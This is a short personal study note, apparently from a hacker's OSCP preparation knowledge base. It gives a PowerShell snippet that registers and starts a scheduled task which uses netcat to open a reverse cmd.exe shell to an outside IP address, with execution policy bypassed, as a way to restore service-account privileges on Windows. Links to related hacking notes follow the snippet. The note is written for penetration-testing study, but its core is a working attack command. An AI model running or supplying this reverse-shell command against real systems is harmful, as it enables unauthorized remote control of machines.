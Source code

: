 # service account privileges restore using scheduled task with powershell
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\windows\tasks\nc.exe 192.168.69.69 443 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
```

` zet/20221003151079/README.md `

# Related

- [20221014185710](/zet/20221014185710/README.md) kb file named kb/hacking/windows/service-account-privileges.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003151080](/zet/20221003151080/README.md) service account privileges restore
- [20221003151078](/zet/20221003151078/README.md) service account privileges restore using scheduled task with powershell require seimpersonate privilege for task using principal
- ~/kb/hacking/windows/service-account-privileges.md

Tags:

    #hacking #windows #service 
